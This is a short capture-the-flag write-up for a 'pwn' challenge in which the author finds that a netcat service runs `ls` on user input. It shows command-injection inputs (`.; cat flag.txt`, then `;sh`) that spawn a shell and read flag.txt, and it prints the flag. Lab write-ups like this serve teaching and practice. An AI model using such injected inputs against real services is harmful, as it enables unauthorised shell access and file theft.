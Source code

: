 # Roppy ropper
**category: pwn**  
**points: 467**

## Description
I love ropes do you?  
nc 35.238.225.156 1004

## Solution
After running netcat, this prompt showed up.
```
$ nc 35.238.225.156 1004
(list_me_like_crazy)
Is this lsass I dont understand :)
Give me your arguments:
```
I tried several inputs and got this:
```
(list_me_like_crazy)
Is this lsass I dont understand :)
Give me your arguments:
.
Result: ls .:
flag.txt
lsass
```
It looks like this program runs `ls` with input from us. Then I tried using a new bash statement to cat the flag.txt file.
```
Is this lsass I dont understand :)
Give me your arguments:
.; cat flag.txt
Result: ls .; :
flag.txt
lsass
```
It didn't work. Looks like only 3 characters is acceptable as input. Then I tried getting a reverse shell with `sh`.
```
(list_me_like_crazy)
Is this lsass I dont understand :)
Give me your arguments:
;sh
Result: ls ;sh:
flag.txt
lsass
cat flag.txt
b00t2root{R0p_cHa1nS_ar3_tH3_b3st}
```
It worked!

**FLAG:** `b00t2root{R0p_cHa1nS_ar3_tH3_b3st}`

